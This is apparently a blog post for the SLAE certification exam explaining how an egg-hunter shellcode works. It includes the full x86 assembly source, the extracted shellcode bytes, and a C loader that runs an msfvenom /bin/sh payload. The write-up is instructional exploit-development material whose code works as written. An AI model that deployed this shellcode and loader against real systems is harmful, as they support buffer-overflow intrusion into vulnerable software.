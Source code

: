 ## SLAE Exam Assignment 3 - Creating an Egg-hunter shellcode

## Prologue
The third assignment for our SLAE Certification exam is creating an egg-hunter shellcode in such a way so as to make it's secondary payload configurable.

Egg-hunter remains an extremely important topic for study by exploitation analysts and rightfully so. 

So without any further ado, let's get down with it!

## So what is an egg-hunter anyway?
Imagine that you have found a buffer overflow exploit in a vulnerable software running in a remote machine but the buffer size or the space controlled by you is not nearly enough to fit a Bind/Reverse TCP shellcode :(

What do you do then?

Enter the Egg-hunter.

![Eggs](../assets/images/eggs.jpg "Eggs")

As many before me and also the ones who will be attempting this exam after me, there is one paper that stands out of all and is referenced by almost everyone perhaps because of it's simplicity and brilliance that is: [Safely Searching Process Virtual Address Space](https://github.com/upayansaha/SLAE-Code-Repository/blob/master/Assignment%203/egghunt-shellcode.pdf) by Skape.

I would recommend all the readers of this blog to read the paper first and then come back here.

I shall not discuss the paper in-depth in this blog-post. However, I shall mention some key concepts required for the analysis and implementation of an egg-hunter payload.
### Egg-hunter payload explained in a sentence
The egg-hunter is a shellcode usually optimized and small in size which is designed to find the final stage larger shellcode marked by an "egg"(4-8 bytes of data) and redirect execution flow to it once it finds it in the virtual address space.
### But how does it work?
The way the egg-hunter works is by iterating through the pages of memory and looking for the "egg" until its found.

Okay okay I get it but as far as I knew when a program tries to read unallocated memory in Linux, the program will crash throwing a `SIGSEGV` right?

Here comes Skape's out-of-the-box solution. He has devised a way to use the `access()` syscall to check whether a page of memory is accessible or not by using the memory address as argument and by checking the error-code(0xf2 OR EFAULT) returned by the syscall, we can determine whether the page is accessible or not. This enables us to scan the memory safely.

Needless to say, if the page is inaccessible then it should skip to the next page directly otherwise it should continue scanning the page looking for our "egg".
### One final note
One last important matter to discuss is what should we consider as this "egg" that we are talking about?

Some implementations of the egg-hunter dictate the condition that the egg itself must be an executable for the egg-hunter to transfer the execution flow to the secondary payload stored somewhere else in memory.

Also, a single instance(4 bytes) of the egg shall be present in the egg-hunter itself so as to enable it to find it in memory by comparison right? Now there might be a scenario where the egg-hunter accidentally finds itself in process's memory thinking it has found the egg when it actually hasn't. So we must keep the egg as something unique.

In light of these issues, Skape has devised an 8-byte executable egg by simply appending the egg to itself making it unique and easily identifiable in the memory. While this is not strictly mandatory but in order to avoid adding unnecessary overheads and complexities, we shall also be using the original "egg" for the purposes of this blog post.

## Egg-hunter Assembly code
Here's the full assembly source of the egg-hunter shellcode:

```nasm
; Filename: egg-hunter_shellcode.nasm
; Author: Upayan a.k.a. slaeryan
; SLAE: 1525
; Contact: upayansaha@icloud.com
; Purpose: This is a x86 Linux null-free egg-hunter shellcode implementing Skape's 
; first technique using access() syscall
; Compile with:
; ./compile.sh egg-hunter_shellcode
; Size of shellcode: 39 bytes


global _start

section .text
_start:

    mov ebx, 0x50905090    ; Moving the 4-byte egg to EBX register
    xor ecx, ecx           ; Clearing ECX register
    mul ecx                ; Clearing EAX and EDX

    ; Function to skip to next page
    turn_page:             
    or dx, 0xfff           ; Bitwise OR of DX value with 0xfff

    ; Function to check whether the following 8 bytes of memory page is accessible or not
    check_page:
    inc edx                ; Increment EDX to make it a multiple of 4096 [PAGE_SIZE]
    pushad                 ; To preserve the current register values in stack
    lea ebx, [edx+0x4]     ; Load the address of the next 8 bytes in EBX to check
    mov al, 0x21           ; Load Syscall value for access() = 0x21 OR 33 in EAX
    int 0x80               ; Executing access() syscall
    cmp al, 0xf2           ; Comparing the return value in AL to 0xf2 == EFAULT
    popad                  ; Restore the register values as we preserved in the stack
    jz turn_page           ; Jump to next page if we got EFAULT otherwise continue

    ; Now that we know the memeory is accessible, we will search for our target!
    cmp [edx], ebx         ; Check if we got the egg in [EDX]
    jnz check_page         ; If not zero - Egg not found! Check the next 8 bytes of the page otherwise if zero - we already found the first 4 bytes of the egg
    cmp [edx+0x4], ebx     ; Check the next 4 bytes [EDX+4] to confirm the kill
    jnz check_page         ; If not zero - Egg wasn't found, false positive! otherwise if zero - mission accomplished - egg found successfully!
    jmp edx                ; Transfer control to the secondary payload
```

There's not much to exaplain in this source as I have commented in-detail on almost every line of code. Note the various optimizations in various parts of the code to minimize the number of instructions as far as possible. 

Also, one important point to note is that the default `PAGE_SIZE` of Linux/x86 is `4kB` or `4096 bytes` which becomes `0x1000` in hex. This would introduce null-characters in our egg-hunter shellcode if we use it which is not exactly desirable. 

As a workaround for this problem, we perform bitwise OR operation on the present `DX` value with `4095` OR `0xfff` and increment `DX` by 1 in `check_page` function in a loop to align the pages properly and make it a multiple of `PAGE_SIZE` like  = 4096(4095|0xfff=4095 + 1), 8192(4096|0xfff=8191 + 1), 12288(8192|0xfff=12287 + 1) and so on...

This enables us to search through all the memory pages in an incremental fashion without skipping any and it is quite a clever trick devised by Skape!

## Egg-hunter shellcode
Let's compile the assembly source with the `compile.sh` script and then subject the ELF32 binary produced to the `converter.py` script to extract the shellcode.

Here's the egg-hunter shellcode:

`\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2`

Looks to be null-free and also the size comes as `39 bytes` as described by Skape.

## Staged shellcode loader
Here's the source of the staged shellcode loader which egg-hunter which in-turn loads the secondary payload(currently configured as a MSF execve /bin/sh payload):

```c
// Contact: upayansaha@icloud.com
// Purpose: This loader program has the secondary payload(shellcode) configurable.
// The length of both the payloads are printed and then the egg-hunter payload is 
// executed which in turn loads the secondary payload.
// Note: Don't forget to append the egg(\x90\x50\x90\x50\x90\x50\x90\x50) to the shellcode.
// Compile with:
// g++ -fno-stack-protector -z execstack staged_shellcode_loader.cpp -o staged_shellcode_loader


#include <stdio.h>
#include <string.h>

unsigned char egghunter[] = "\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";

unsigned char shellcode[] = "\x90\x50\x90\x50\x90\x50\x90\x50\xba\xec\xc4\x30\xdf\xdb\xd1\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
                            "\x0b\x31\x56\x15\x83\xee\xfc\x03\x56\x11\xe2\x19\xae\x3b\x87"
                            "\x78\x7d\x5a\x5f\x57\xe1\x2b\x78\xcf\xca\x58\xef\x0f\x7d\xb0"
                            "\x8d\x66\x13\x47\xb2\x2a\x03\x5f\x35\xca\xd3\x4f\x57\xa3\xbd"
                            "\xa0\xe4\x5b\x42\xe8\x59\x12\xa3\xdb\xde"; // CHANGE ME | Gen. using: msfvenom -p linux/x86/exec CMD=/bin/sh --arch x86 -f c -b "\x00"

int main(int argc, char* argv[])
{
    printf("Egg hunter length(Primary payload): %d\n", strlen((const char*)egghunter));
    printf("Shellcode length(Secondary payload): %d\n", strlen((const char*)shellcode)-8);
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

## A working demo of the egg-hunter shellcode:
Well all talk and no fun is bad which is why here's a demo of the egg-hunter shellcode which we made just now in action. Enjoy;)

<script id="asciicast-NtBMAHCYIw2BHzcL20bcYSJtS" src="https://asciinema.org/a/NtBMAHCYIw2BHzcL20bcYSJtS.js" async></script>
